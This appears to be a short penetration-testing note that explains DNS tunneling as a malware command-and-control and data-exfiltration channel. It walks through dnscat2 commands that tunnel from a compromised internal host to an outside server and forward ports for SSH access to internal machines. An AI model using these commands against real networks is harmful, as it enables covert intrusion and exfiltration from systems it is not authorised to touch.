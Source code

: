 DNS tunneling takes advantage of this fact by using DNS requests to implement a command and control channel for malware. Inbound DNS traffic can carry commands to the malware, while outbound traffic can exfiltrate sensitive data or provide responses to the malware operator’s requests. This works because DNS is a very flexible protocol. There are very few restrictions on the data that a DNS request contains because it is designed to look for domain names of websites. Since almost anything can be a domain name, these fields can be used to carry sensitive information. These requests are designed to go to attacker-controlled DNS servers, ensuring that they can receive the requests and respond in the corresponding DNS replies.

### DNSCAT2

With [dnscat](https://github.com/iagox86/dnscat2) we can use DNS as a tunnel and forward all traffic with DNS requests from one host, to connect a WAN host to an host deep and protected in the internal LAN. The **WAN-HOST** will query the **IP-B** through the DNS tunnel that **IP-A** establish with **WAN-HOST**, using **IP-C** as a resolver.

```
                DNS ------IP-C
                 |     
WAN-HOST ----- IP-A ------IP-B
   |____________||__________|

```

On the internal host, after we gain access to it, we run

```shell
./dnscat <DOMAIN>
```

And on the host in the WAN we run

```shell
dnscat2-server <DOMAIN>
```

Where the **DOMAIN** is a domain that can be resolved in the LAN. Now on the server we can interact with the tunnel created

```shell
window -i 1
```

And run the command that forwards the **LOCAL-PORT** to the **REMOTE-INTERNAL-IP** using the **REMOTE-PORT**

```shell
listen 127.0.0.1:<LOCAL-PORT> <REMOTE-INTERNAL-IP>:<REMOTE-PORT>
```

Now on the WAN host we can query the **REMOTE-INTERNAL-IP** using the tunnel, with a connection that points to **LOCAL-PORT**

```shell
ssh user@127.0.0.1 -p <LOCAL-PORT>
```